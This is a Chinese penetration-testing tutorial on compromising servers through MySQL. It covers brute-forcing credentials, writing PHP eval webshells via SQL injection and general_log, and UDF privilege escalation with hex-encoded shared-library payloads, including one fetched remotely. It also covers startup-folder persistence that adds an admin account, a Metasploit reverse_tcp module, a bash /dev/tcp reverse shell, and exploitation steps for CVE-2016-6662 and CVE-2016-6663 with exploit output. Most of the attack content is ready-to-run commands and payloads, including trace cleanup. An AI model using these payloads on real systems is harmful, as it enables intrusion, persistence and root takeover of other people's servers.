

MySQL 是世界上最流行的关系型数据库管理系统，在 WEB 应用方面 MySQL 是最好的 RDBMS(Relational  Database Management  System：关系数据库管理系统)应用软件之一。全球很多著名公司和站点都使用Mysql作为其数据库支撑，并且很多架构都以Mysql作为数据库管理系统，例如LAMP、和WAMP等，在针对网站渗透中，很多都是跟Mysql数据库有关，各种Mysql注入，利用Mysql来getshell、Mysql提权，等等。本文，笔者我对Mysql在渗透测试中的常见的基础利用进行了详细的总结，包括利用MySQL获取webshell、MySQL提权以及几个MySQL的0day漏洞等。

## MySQL相关信息收集

不管是你渗透什么玩意儿，信息收集都是首要的一步。在行动之前，我们需要搞清楚，目标主机上是否存在MySQL、MySQL运行在默认的端口还是指定的端口、MySQL的版本信息、MySQL用户信息等等。

Mysql默认端口是3306端口，但也有自定义端口，针对默认端口扫描主要利用扫描软件进行探测。我们可以用nmap等端口扫描工具对MySQL的端口进行扫描。

如果已经获得了目标MySQL的密码，我们可以使用该用户名和密码扫描获取指定IP地址的端口信息以及mysql数据库相关信息：

```
nmap -sV -sC 192.168.1.13
nmap -sV -sC 192.168.1.13 -p 3306
```

Nmap还内置了多个mysql相关脚本，有审计，暴力破解，hash、空密码扫描、枚举、基本信息、查询、变量等等：

```
/usr/share/nmap/scripts/mysql-audit.nse
/usr/share/nmap/scripts/mysql-brute.nse
/usr/share/nmap/scripts/mysql-databases.nse
/usr/share/nmap/scripts/mysql-dump-hashes.nse
/usr/share/nmap/scripts/mysql-empty-password.nse
/usr/share/nmap/scripts/mysql-enum.nse
/usr/share/nmap/scripts/mysql-info.nse
/usr/share/nmap/scripts/mysql-query.nse
/usr/share/nmap/scripts/mysql-users.nse
/usr/share/nmap/scripts/mysql-variables.nse
/usr/share/nmap/scripts/mysql-vuln-cve2012-2122.nse
```

能不能用不知道，反正我是没用过。

Metasploit也有几个可用于收集MySQL信息的模块：

```
获取MySQL相关信息:
auxiliary/admin/mysql/mysql_enum
auxiliary/scanner/mysql/mysql_version

文件枚举和目录可写信息枚举:
auxiliary/scanner/mysql/mysql_file_enum
auxiliary/scanner/mysql/mysql_writable_dirs
```

另外，我们还可以使用sqlmap通过注入点扫描获取目标数据库的信息。sqlmap在测试注入点时，会枚举出目标主机的数据库类型、版本等信息。

## 通过MySql获取服务器权限

### 获取MySql连接密码

假设目标服务器开启3389端口，并且允许我们进行远程访问的话，我们可以采取爆破MySQL用户密码的方法，获取MySQL的权限。

在渗透测试中，获取MySql连接密码的思路大致有以下几种：

**MySQL 口令爆破**

当我们通过信息收集已经知道目标主机上运行有MySql服务时，我们可以对其连接密码进行爆破，但这种方法一般是不会成功的，爆破成功的几率近乎为零。除非管理员用的是弱口令，我们才有尝试一下爆破的必要。但为了提高爆破成功的概率，社工也是不可缺少的。我们可以通过收集一个人的各种信息，例如姓名、社交平台账号/昵称、手机号、生日、伴侣姓名/生日、职业等信息，通过这些写信息生成针对性的字典，利用该字典进行爆破。

如若你真想进行 MySQL 口令爆破，可以用以下几种方法：

**（一）通过metasploit相关模块进行爆破**

Metasploit的auxiliary/scanner/mysql/mysql_login模块可用来登录mysql，亦可用来爆破mysql口令：

```
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.1.13
set pass_file /tmp/wordlists.txt    # 设置字典
set username root
run
```


**（二）使用nmap扫描并破解密码**

（1）对某一个IP或者IP地址段进行mysql root默认密码暴力扫描并破解：

```
nmap --script=mysql-brute.nse 192.168.1.13
nmap --script=mysql-brute.nse 192.168.1.13 -p 3306
nmap --script=mysql-brute.nse 192.168.1.1-255
```

也可以自定义账号密码字典。

```
nmap -p 3306 --script=mysql-brute.nse userdb=/tmp/passdb.txt passdb=/tmp/pass.txt 192.168.1.13
```

（2）检查mysql root空口令

```
nmap --script=mysql-empty-password.nse 192.168.195.130
```

**MySQL 哈希值爆破**

MySQL的用户名密码哈希值保存在mysql库的user表中：

```
mysql> select host, user, password from mysql.user;
+-----------+------+-------------------------------------------+
| host      | user | password                                  |
+-----------+------+-------------------------------------------+
| localhost | root | *36BCFC********************C617716EE3DC63 |
| ubuntu    | root | *36BCFC********************C617716EE3DC63 |
| 127.0.0.1 | root | *36BCFC********************C617716EE3DC63 |
| ::1       | root | *36BCFC********************C617716EE3DC63 |
+-----------+------+-------------------------------------------+
4 rows in set (0.00 sec)

mysql>
```

直接将获取到的哈希值放到cmd5.com在线哈希破解网站上在线破解即可。

**从网站泄露的源代码中寻找数据库密码**

网站的配置文件中大多含有数据库的连接配置，如数据库用户名、密码等配置信息。当我们获得到了目标网站的备份文件时，首先查看一下网站的配置文件可能会有以外的收获。


### 通过MySql向服务器写WebShell

需要具有以下几个条件：

- 存在sql注入漏洞
- 当前数据库用户具有写入权限
- 知道目标网站Web物理路径
- **secure_file_priv 选项支持数据导出**

有时候，即使当前数据库用户有了file权限，也不能成功将数据导出至自己想要的目录。因为高版本的MYSQL添加了一个新的特性  secure_file_priv，该选项对mysql导出文件做了限制，输出目录路径应该secure_file_priv一致，否侧文件操作不成功：

```
mysql> show variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv | NULL  |
+------------------+-------+
1 row in set (0.00 sec)

mysql>
```

该参数用于限制select...into outfile...、load_file()导出到或读取哪个指定的目录。

- secure_file_priv 的值为 NULL 时，表示限制mysql不允许导入或导出。
- secure_file_priv 的值为为 /tmp 时，表示限制mysql只能在/tmp目录中执行导入导出，其他目录不能执行。
- secure_file_priv 没有值即值为空时，表示允许mysql在任何目录导入或导出。

因为 secure_file_priv 参数是只读参数，所以不能使用set global命令直接修改，我们应在mysql的配置文件（my.cnf或my.ini）中进行设置：

开my.cnf 或 my.ini，加入以下语句后重启mysql即可：

```
[mysqld]
secure_file_priv=''
```

查看secure_file_priv修改后的值：


此时便可以在任何目录中导出或导入数据了，这也是我们利用MySql向服务器写WebShell的基础。

**利用 Union select 写入WebShell**

这是最常见的一种写入方式，union select 配合 select into outfile，将WebShell写入服务器，适用于sql注入点事联合注入的情况下。

```
index.php/?id=1 union select 1,"<?php @eval($_POST[whoami]);?>",3 into outfile '/var/www/html/shell.php' --+
```

mysql可以解析十六进制，我们也可以对一句话进行十六进制编码，最终效果都是一样的：

```
index.php/?id=1 union select 1,0x3c3f70687020406576616c28245f504f53545b77686f616d695d293b3f3e,3 into outfile "/var/www/html/shell.php"--+
```


如下图，成功写入webshell：


**利用分隔符写入WebShell**

当sql注入点为为盲注或基于报错的注入时，Union select 写入的方式显然是利用不了的，我们可以通过分隔符写入WebShell。

```
?id=1 into outfile '/var/www/html/shell.php' lines terminated by 0x3c3f70687020406576616c28245f504f53545b77686f616d695d293b3f3e--+
此选项指定文本文件中行与行之间数据的分隔字符串 或者字符。
```

同样的技巧，一共有四种形式：

```
?id=1 into outfile '物理路径' lines terminated by  (一句话hex编码)#
?id=1 into outfile '物理路径' fields terminated by (一句话hex编码)#
?id=1 into outfile '物理路径' columns terminated by (一句话hex编码)#
?id=1 into outfile '物理路径' lines starting by (一句话hex编码)#
```


如下图，成功写入webshell：


**利用log日志写入WebShell**

Mysql查询日志用来保存所有跟查询相关的日志，我们可以通过指定mysql日志的存放路径来往目标主机上写入webshell，但是也要对生成的日志有可读可写的权限。这种日志类型默认是关闭状态的，因为MySQL的用户有很多，如果将每个用户的查询操作都记录下来的话，对服务器的资源开销也是一件令人烦恼的事情。查询日志常见的几个配置选项：

```
mysql> show variables like '%general%';
+------------------+-----------------------------+
| Variable_name    | Value                       |
+------------------+-----------------------------+
| general_log      | OFF                         |
| general_log_file | /www/server/data/Ubuntu.log |
+------------------+-----------------------------+
2 rows in set (0.00 sec)

mysql>
```

- general_log 指定日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF 代表关闭。
- general_log_file 指的是日志的保存路径

当 general_log=ON 时，所执行的sql语句都会出现在/www/server/data/Ubuntu.log这个文件里。那么，如果把  general_log_file 的路径修改为  /var/www/html/shell.php，那么所执行的sql语句就会保存在shell.php中，如果我们执行查询一个一句话，就可以getshell。

利用方式如下：

```
show variables like '%general%';         # 查看查询日志全局配置

set global general_log = ON;             # 开启general log模式,将所有到达MySQL Server的SQL语句记录下来。

set global general_log_file = '/var/www/html/shell.php';    # 设置日志文件地址

select '<?php eval($_POST[whoami]);?>';   # 查询一句话,此时日志文件shell.php中将写入webshell

set global general_log=OFF;              # 关闭general log模式
```


如下图，成功在Web目录写入webshell：


**注意：**以上几种方法虽然成功在目标服务器的web目录下写入了webshell，但是所需要的条件极其严格，其中最为主要的就是当前数据库用户具有写入权限和 secure_file_priv 选项支持数据导入导出。但是，在 Linux 系统中权限分配十分严格，MySQL  用户一般情况下是无法直接往web根目录写入文件的，即便成功，写入的文件的权限也是MySQL的（上图中可见），Apache也是无法访问的，所以，以上方法通常是在Windows系统中适用。这个点需要记一下。

### 通过MySQL进行权限提升

所谓通过MySQL进行权限提升就是通过MySQL执行系统命令。假如说我们发现了某个网站存在SQL注入，亦或者是我们发现了某个主机的数据库的账号密码，我们直接远程连接上了该数据库。现在我们想利用该数据库来执行系统命令，该如何去做呢？下面我们就来演示几种通过MySQL执行系统命令进行权限提升的方法。这里需要注意的是，执行系统命令的权限取决于数据库启动用户的权限。

**MySQL UDF提权执行系统命令**

UDF是MySQL的一个拓展接口，UDF（Userdefined function）可翻译为用户自定义函数，这个是用来拓展Mysql的技术手段。

使用过MySQL的人都知道，MySQL有很多内置函数提供给使用者，包括字符串函数、数值函数、日期和时间函数等，给开发人员和使用者带来了很多方便。MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，当MySQL的内置函数不能满足需要的时候，就需要对MySQL进行一些扩展，幸运的是，MySQL给使用者提供了添加新函数的机制，这种使用者自行添加的MySQL函数就称为UDF(User Define Function)。

当我们有了数据库读取和写入权限以后，我们就可以尝试使用UDF提权的方法，从数据库root权限提升到系统的管理员权限。

**提权原理：**

UDF的使用需要调用其动态链接库文件（.dll或.so），使用UDF提权原理大概就是通过引入恶意的`udf.dll`，引入自定义函数（如sys_eval()函数），执行系统命令。

**利用条件：**

- 掌握MySQL数据库的账户，从拥有对mysql的insert和delete权限，以创建和抛弃函数。
- 当前用户拥有可以将udf.dll写入相应目录的权限。
- 如果MySQL版本小于5.1且为Windows系统，则udf.dll文件存放在 C:\windows 或者 C:\windows\system32 目录下。
- 如果MySQL版本大于5.1，udf.dll文件必须放置在MySQL安装目录的lib/plugin文件夹下，该plugin目录默认不存在需要创建。

假设我的UDF文件名为 udf.dll，存放在MySQL安装目录的 lib/plugin 目录下（MySQL>5.1）：


在 udf.dll 文件中，我定义了一个名为 sys_eval() 的 MySQL 函数，该函数可以执行系统任意命令。但是如果我现在就打开  MySQL 命令行，使用 select sys_eval('whoami')；的话，系统会返回 sys_eval()  函数未定义。因为我们仅仅是把 udf.dll 放到了 lib/plugin  目录下，并没有引入。类似于面向对象编程时引入包一样，如果没有引入包，那么这个包里的类你是用不了的。所以，我们应该把 udf.dll  中的自定义函数引入进来。引入的方法如下：

```
create function sys_eval returns string soname 'udf.dll';
```

- sys_eval：我们要引入的函数名。
- udf.dll：我们要从中引入函数的链接库文件。

成功引入该函数后，可以查看一下 mysql 函数里面新增了 sys_eval：

```
mysql> select * from mysql.func;
+----------+-----+---------+----------+
| name     | ret | dl      | type     |
+----------+-----+---------+----------+
| sys_eval |   0 | udf.dll | function |
+----------+-----+---------+----------+
1 row in set (0.00 sec)

mysql>
```

此时我们便可以像执行其他MySQL内置函数一样去使用该函数了。

**UDF手动提权步骤**

当我们通过各种方法获取了目标MySQL数据库的权限并满足UDF提权的条件后，我们可以按照以下步骤进行提权。

**（一）查看 secure_file_priv 的值**

上文说了，secure_file_priv 是用来限制 into dumpfile、into outfile、load_file() 函数能在哪个目录下导出或者读取文件的，所以该值为空是我们利用UDF提权的首要条件：

```
mysql> show variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.02 sec)

mysql>
```

**（二）查看系统架构及plugin插件目录**

UDF的dll动态链接库文件需要放在该目录下：

```
mysql> show variables like '%compile%';    # 查看主机版本及架构
+-------------------------+--------+
| Variable_name           | Value  |
+-------------------------+--------+
| version_compile_machine | x86_64 |
| version_compile_os      | Linux  |
+-------------------------+--------+
2 rows in set (0.00 sec)

mysql> show variables like '%plugin%';    # 查看plugin目录
+---------------+-------------------------------+
| Variable_name | Value                         |
+---------------+-------------------------------+
| plugin_dir    | /www/server/mysql/lib/plugin/ |
+---------------+-------------------------------+
1 row in set (0.01 sec)

mysql>
```

可知目标主机plugin插件目录为/www/server/mysql/lib/plugin/。

如若该目录不存在，可以通过webshell等方式找到 MySQL 的安装目录然后手工创建 lib/plugin 文件夹

**（三）将我们构造的恶意动态链接库文件写入plugin插件目录**

我们应该去哪里找动态链接库文件去呢？Sqlmap 和 Metasploit 工具里面都自带了对应系统的动态链接库文件。

下面是二者的UDF动态链接库文件的存放位置：

- Sqlmap：位于sqlmap/data/udf/mysql目录下，包含64位和32位Linux和Windows系统下利用的动态链接库文件：


- Metasploit：位于/usr/share/metasploit-framework/data/exploits/mysql目录下，包含64位和32位Linux和Windows系统下利用的动态链接库文件：
  

另外需要注意，sqlmap 中 自带这些动态链接库为了防止被杀软误杀都经过编码处理，不能直接使用。使用之前需要先用 sqlmap 自带的解码工具 cloak.py （extra/cloak目录下）解码，解码的方式如下：

```
python3 cloak.py -d -i <动态链接库文件>
```

找到目标主机对应系统版本和位数的UDF文件后，我们需要将UDF文件写入plugin插件目录，大多数情况下我们是将.dll转化成十六进制然后再写入。这里以Linux、64位MySQL为例。

首先在攻击者本地，将lib_mysqludf_sys_64.so或lib_mysqludf_sys_32.so中的内容进行十六进制编码：

```
select hex(load_file('lib_mysqludf_sys_64.so')) into outfile "udf_64.hex";
```


生成了 hex 文件以后我们可以将udf_32.hex文件的内容复制出来（注意前面加上0x），然后执行如下命令写入目标机的lib/plugin插件目录下：

```
select 0x7F454C5602010100000000000000000003003E0001000000D00C0000000000004000000000000000E8180000000000000000000040003800050040001A0019000100000005000000000000000000000000000000000000000000000000000000141500000000000014150000000000000000200000000000010000000600000018......010000000000000000000000000000000000000088170000000000009B000000000000000000000000000000010000000000000000000000000000000100000003000000000000000000000000000000000000002318000000000000C500000000000000000000000000000001000000000000000000000000000000 into dumpfile "/www/server/mysql/lib/plugin/udf.so";
```

但是由于数据过长，我们需要将其分段写入。即先创建一个表，然后将十六进制数据分段写入表中，最后将含有数据的那个字段导出到udf.so，操作如下：

```
create table temp(data longblob);

insert into temp(data) values (0x7F454C5602010100000000000000000003003E0001000000D00C0000000000004000000000000000E8180000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050E57464040000006412000000000000641200000000000064120000000000009C000000000000009C00000000000000040000000000000051E5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002B0000001500000005000000280000001E000000000000000000000006000000000000000C00000000000000070000002A00000009000000210000000000000000000000270000000B000000220);

update temp set data = concat(data,0x0000018000000240000000E00000000000000040000001D0000001600000000000000130000000000000000000000120000002300000010000000250000001A0000000F000000000000000000000000000000000000001B00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000A00000011000000000000000000000000000000000000000D0000002600000017000000000000000800000000000000000000000000000000000000000000001F0000001C0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119C5C93DA4400398046883140000001600000017000000190000001B0000001D0000002000000022000000000000002300000000000000240000002500000027000000290000002A00000000000000CE2CC0BA673C7690EBD3EF0E78722788B98DF10ED871581CC1E2F7DEA868BE12BBE3927C7E8B92CD1E7066A9C3F9BFBA745BB073371974EC5345D5ECC5A62C1CC3138AFF36AC68AE3B9FD4A0);

update temp set data = concat(data,0xAC73D1C525681B320B5911FEAB5FBE120000000000000000000000000000000000000000000000000000000003000900A00B0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000E0000000120000000000000000000000DE01000000000000790100001200000000000000000000007700000000000000BA0000001200000000000000000000003504000000000000F5000000120000000000000000000000C2010000000000009E010000120000000000000000000000D900000000000000FB000000120000000000000000000000050000000000000016000000220000000000000000000000FE00000000000000CF000000120000000000000000000000AD00000000000000880100001200000000000000000000008000000000000000AB010000120000000000000000000000250100000000000010010000120000000000000000000000DC00000000000000C7000000120000000000000000000000C200000000000000B5000000120000000000000000000000CC02000000000000ED000000120000000000000000000000E802000000000000E70000001200000000000000000000009B);

...... # 不断通过update语句配合concat将数据拼接进去，当十六进制数据全部分段拼入data字段后，执行如下命令将该字段导出:

select data from temp into dumpfile "/www/server/mysql/lib/plugin/udf.so";
```

还有一个巧妙的方法便是利用load_file()函数，该函数支持远程加载，我们可以将UDF文件放在vps上，执行如下命令让目标机远程加载该文件并下载到指定目录里：

```
select load_file('\\\\47.xxx.xxx.72\udf.so') into dumpfile "/www/server/mysql/lib/plugin/udf.so"
```

**（四）引入UDF函数并调用函数执行系统命令**

引入的方法如下：

```
create function sys_eval returns string soname 'udf.so';
```

- sys_eval：我们要引入的函数名。
- udf.dll：我们要从中引入函数的链接库文件。

成功引入该函数后，我们便可以像执行其他MySQL内置函数一样去使用该函数了：

```
select sys_eval('whoami');
```

如下图所示，命令执行成功：


**（5）清理痕迹**

删除自定义函数：

```
drop function sys_eval;
```

**注意：**还是那个问题，linux系统的权限管理太严了，如果是Windows系统的话一般就是管理员权限了：


**UDF提权在Metasploit下的利用**

如果你觉得上面手动的方法麻烦的话，也可以利用metasploit中的exploit/multi/mysql/mysql_udf_payload模块实现自动化UDF函数注入，只适用于Windows系统：


使用如下：

```
use exploit/multi/mysql/mysql_udf_payload
set rhosts 192.168.1.13
set username root
set password root
run
```


MSF会将一个随机命名的UDF文件写入lib/plugin目录下（如果该目录不存在的话，则无法执行成功），该UDF文件中包含sys_exec()和sys_eval()这两个函数，但是默认只创建sys_exec()函数，该函数执行并不会有回显。我们可以手动引入 sys_eval() 函数，来执行有回显的命令。

```
create function sys_eval returns string soname 'guuHCUiK.dll';
```


**MySQL启动项提权**

**手动利用**

所谓MySQL的启动项提权，就是将自定义的脚本写入到开机自启目录下，如果管理员重启了服务器，那么就会自动调用该脚本，并执行其中的用户添加及提权命令。这种提权也常见于 Windows 环境下，写入的脚本支持 vbs 和 exe 类型，可以利用 vbs 执行一些 CMD 命令，也可以使用 exe 上线  metasploit 或 cobalt strike。

VBS脚本的话最常见的就是创建一个管理员用户：

```
Set WshShell=WScript.CreateObject("WScript.Shell")
WshShell.Run "net user whoami Liu78963 /add", 0
WshShell.Run "net localgroup administrators whoami /add", 0
```

写入的方式与上文中讲的那几种方法一样，即先在本地将vbs脚本用mysql的hex()函数进行十六进制编码，然后利用into outfile...或into dumpfile写入：

```
select 0x536574205773685368656C6C3D575363726970742E4372656174654F626A6563742822575363726970742E5368656C6C22290D0A5773685368656C6C2E52756E20226E657420757365722077686F616D69204C69753738393633202F616464222C20300D0A5773685368656C6C2E52756E20226E6574206C6F63616C67726F75702061646D696E6973747261746F72732077686F616D69202F616464222C2030 into dumpfile 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\evil.vbs';
```


此时，如果管理员重启了服务器，那么就会自动调用该脚本，并执行其中的命令，如下图所示，常见管理员新用户“whoami”成功：


同样，我们也可以将exe写入到开机自启目录下，写入的方式与上文中讲的那几种方法一样，即先在本地将exe程序用mysql的hex()函数进行十六进制编码，然后利用into outfile...或into dumpfile写入到目标机的自启目录下。如下我们写入一个msf马“shell.exe”。

首先在攻击者本地将shell.exe进行十六进制转换：

```
select hex(load_file('shell.exe')) into outfile "shell.hex";
```


将得到的hex文件shell.hex里的内容复制出来，利用上文中写UDF文件的方法分段写入目标机自启目录下即可（老长了~~~）。

带目标服务器重启后，我们便可以得到目标主机的meterpreter：


**Metasploit下的利用**

如果你觉得上面手动的方法麻烦的话，metasploit中也集成了相应的模块：exploit/windows/mysql/mysql_start_up


使用如下：

```
use exploit/windows/mysql/mysql_start_up
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.7
set lport 4444
set rhosts 192.168.1.13
set username root
set password root
set startup_folder xxx     # 根据目标系统进行设置自启目录
run
```

执行后，msf将在目标主机的启动项中写入一个exe的msf木马：


待目标主机重启后，便会得到目标主机的meterpreter：


## MySQL 0day 漏洞

### CVE-2016-6662（可将mysql权限提升为系统root权限）

2016年，一个独立的研究组织发现多处严重的Mysql漏洞，此次通报的是其中比较严重的一个漏洞CVE-2016-6662，它允许攻击者远程注入恶意配置到被攻击服务器的Mysql配置文件my.cnf中，导致可加载任意扩展库。当扩展库中存在恶意指令时就可以Getshell。

**该漏洞影响的版本如下：**

- mysql <= 5.7.15
- mysql <= 5.6.33
- mysql <= 5.5.52

**漏洞原理：**

在Linux系统中，一些默认的Mysql安装包自带mysql_safe脚本作为包装器，当我们使用`service mysql start`、`/etc/init.d/mysql start`等命令启动MySQL时，mysqld_safe封装脚本是以root权限启动的，而主要的mysqld进程却是用权限较低的mysql用户启动的。并且mysql_safe脚本将在mysql服务启动前预加载一个扩展库，这个扩展库可以在MySQL的配置文件my.cnf中通过名为malloc_lib的配置项进行设置，该配置项写在[mysqld]下。

如果我们在my.cnf中通过malloc_lib配置项指定一个存在恶意代码的扩展库路径，那么在mysql重启的时候，这些代码将被以root权限执行，实现权限提升。

**漏洞利用条件：**

- 攻击者已经获得了目标主机MySQL的权限
- 目标主机的MySQL版本在漏洞影响范围内
- 攻击者当前获得权限的MySQL用户为root权限（否则无法修改general_log_file全局变量）

下面，我们来复现该漏洞。

**实验环境：**

- 目标机IP：192.168.1.10
- 攻击机IP：192.168.1.7

首先，我们下载一个C脚本，用来编译成我们恶意的扩展库，可获得目标机的shell：

- http://legalhackers.com/exploits/mysql_hookandroot_lib.c

如下修改该攻击脚本：


执行如下命令编译生成恶意的扩展库文件mysql_hookandroot_lib.so：

```
gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl
```


然后通过上文所讲的各种方式将生成的mysql_hookandroot_lib.so上传到目标机的/tmp目录下即可。

接下来，我们要确定要修改的MySQL配置文件为哪个。MySQL的配置文件除了默认的 /etc/my.cnf，还有别的配置文件路径，并且是顺序读取的：

| File Name              | Purpose                                                |
| ---------------------- | ------------------------------------------------------ |
| **/etc/my.cnf**        | **Global options**                                     |
| **/etc/mysql/my.cnf**  | **Global options**                                     |
| SYSCONFDIR/my.cnf      | Global options                                         |
| **$MYSQL_HOME/my.cnf** | **Server-specific options (server only)**              |
| defaults-extra-file    | The file specified with`--defaults-extra-file`, if any |
| ~/.my.cnf              | User-specific options                                  |
| ~/.mylogin.cnf         | User-specific login path options (clients only)        |

可见MySQL不仅会读取/etc/my.cnf，还会读取$MYSQL_HOME/my.cnf即msyql自身目录下的mf.cnf。那我们到底修改哪一个my.cnf呢？答案是都可以，但最好是mysql目录下的，因为msyql目录毕竟是人家mysql自己的目录，以mysql用户运行的mysql当然是有权限写的，而别的文件可就不好说了。但也无法避免管理员的错误配置情况，所以，只要mysql用户有mysql配置文件的所属权限，攻击便可以追加恶意的配置项到该文件。

其次，我们还要确定用什么方法写my.cnf文件。一说到写文件，我们便可以想到into outfile和into  dumpfile。但是在这里，我们不能用这种方式，因为outfile和dumpfile写出来的文件的权限为-rw-rw-rw，而MySQL有一个安全规则，即如果配置文件的权限可被其他用户写，则将会忽略这个配置文件。所以outfile和dumpfile写出来的配置文件不符合该安全规则。

我们可以用上文中讲的log写文件的方法。并且log写文件对于已存在的文件将会自动追加，正好可以避免写入的以下banner内容对MySQL配置文件的影响，也就是说，如果要用log写配置文件的话，该配置文件必须是mysql已经创建好的。

攻击者在目标主机的MySQL里执行以下操作即可写入MySQL配置文件：

```
mysql> set global general_log = on;    # 开启日志功能

mysql> set global general_log_file = '/etc/my.cnf';    # 设置日志存放路径为mf.cnf

mysql> select "    # 执行后，将在日志中(my.cnf)中写入恶意配置
	"> [mysqld]
	"> malloc_lib=/tmp/mysql_hookandroot_lib.so
	">
	"> #";
	
mysql> set global general_log = off;    # 关闭日志功能
```


查看目标机MySQL配置文件，发现已经成功写入了恶意的配置项：


然后等待目标mysql，攻击者机器上边获得了目标主机的shell：


上述的操作要修改general_log全局变量，也就是说攻击者当前获得权限的MySQL用户必须是root权限。如果攻击者当前获得权限的MySQL用户不是root权限，则我们无法修改general_log全局变量，那么此时我们还可以利用此漏洞吗？当然可以，只需要一个具有 select、insert、create、file 权限的用户即可。

我们可以利用MySQL触发器的方法来成功写入修改配置文件：

```
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `active_table` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
" INTO void;
   set global general_log = off;
END;
```

当表刷新的时候就会执行触发器，比如通过insert来让表刷新：

```
INSERT INTO `active_table` VALUES('xyz');
```

触发器的代码会以mysql root权限执行，从而让攻击者修改general_log设置，即使此时攻击者没有数据库的管理员权限。

给出一个利用脚本：http://legalhackers.com/exploits/0ldSQL_MySQL_RCE_exploit.py

### CVE-2016-6663（可将www-data权限提升为mysql权限）

2016年11月01日，国外安全研究员Dawid Golunski在 MySQl、MariaDB 和 PerconaDB  数据库中发现条件竞争漏洞。该漏洞允许本地用户使用低权限（CREATE/INSERT/SELECT权限）的账号提升权限到数据库系统用户权限（通常是mysql用户权限）来执行任意代码，黑客成功利用此漏洞后，可以完全访问数据库。

**该漏洞影响的版本如下：**

MySQL：

- <= 5.5.51
- <= 5.6.32
- <= 5.7.14

**漏洞利用条件：**

- 攻击者已经获取到目标服务器的webshell权限
- 可以通过反弹shell的方法获得目标主机的交互环境
- 已经拿到了一个低权限（CREATE/INSERT/SELECT权限）的 MySQL 账户的用户名和密码
- 目标主机的MySQL版本在漏洞影响范围内

下面我们来复现该漏洞。

**实验环境：**

- 目标机IP：192.168.1.10
- 攻击机IP：192.168.1.7

假设我们已经通过蚁剑获得了目标主机的webshell权限。

首先，我们先下载一个C脚本 [mysql-privesc-race.c](https://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)，通过蚁剑将编译将其上传到目标主机。然后执行如下命令反弹个shell获取目标主机的交互环境：

```
bash -c "bash -i >& /dev/tcp/192.168.1.7/2333 0>&1"
```



然后执行如下命令将上传的攻击脚本编译生成我们的exp程序：

```
gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient
```


最后，在shell环境中执行的exp程序：

```
./mysql-privesc-race whoami 123456 localhost whoami_db
```

- whoami：已经拿到了一个低权限（CREATE/INSERT/SELECT权限）的 MySQL 用户名
- 123456：低权限 MySQL 用户的密码
- localhost：数据库地址
- whoami_db：属于whoami用户的数据库

执行成功后会获得一个mysql权限，要想提升到系统root权限还需要配合CVE-2016-6664漏洞，大概如下：

```
www-data@xenial:~/mysql-exploit$ time ./mysql-privesc-race www-data pocsql localhost pocdb

MySQL/PerconaDB/MariaDB - Privilege Escalation / Race Condition PoC Exploit
mysql-privesc-race.c (ver. 1.0)

CVE-2016-6663 / OCVE-2016-5616

For testing purposes only. Do no harm.

Discovered/Coded by:

Dawid Golunski 
http://legalhackers.com


[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Connecting to the database `pocdb` as www-data@localhost
[+] Creating exploit temp directory /tmp/mysql_privesc_exploit
[+] Creating mysql tables 

DROP TABLE IF EXISTS exploit_table 
DROP TABLE IF EXISTS mysql_suid_shell 
CREATE TABLE exploit_table (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/mysql_privesc_exploit' 
CREATE TABLE mysql_suid_shell (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/mysql_privesc_exploit' 

[+] Copying bash into the mysql_suid_shell table. After the exploitation the following file/table will be assigned SUID and executable bits : 
-rw-rw---- 1 mysql www-data 1037528 Nov  1 02:33 /tmp/mysql_privesc_exploit/mysql_suid_shell.MYD

[+] Entering the race loop... Hang in there...
[+] Bingo! Race won (took 5 tries) ! Check out the mysql SUID shell: 
-rwsrwxrwx 1 mysql www-data 1037528 Nov  1 02:33 /tmp/mysql_privesc_exploit/mysql_suid_shell.MYD

[+] Spawning the mysql SUID shell now... 
    Remember that from there you can gain root with vuln CVE-2016-6662 or CVE-2016-6664 :)

mysql_suid_shell.MYD-4.3$ whoami
mysql
mysql_suid_shell.MYD-4.3$ id
uid=33(www-data) gid=33(www-data) euid=102(mysql) groups=33(www-data)
```

但我在本地测试失败了，总是报错说“cp: cannot create regular file  '/tmp/mysql_privesc_exploit/mysql_suid_shell.MYD': Permission  denied”，有知道原因的大佬还请写在评论里告诉我。

### CVE-2016-6664（可将mysql权限提升为root权限）

该漏洞可以使mysql用户权限提升为系统root权限。

**该漏洞影响的版本如下：**

MySQL ：

- <= 5.5.51
- <= 5.6.32
- <= 5.7.14

**漏洞利用条件：**

- 攻击者已经获取到目标服务器的webshell权限。
- 可以通过反弹shell的方法获得目标主机的交互环境。
- 已经通过CVE-2016-6663等方式获取到系统mysql用户权限。
- 目标主机的MySQL版本在漏洞影响范围内。
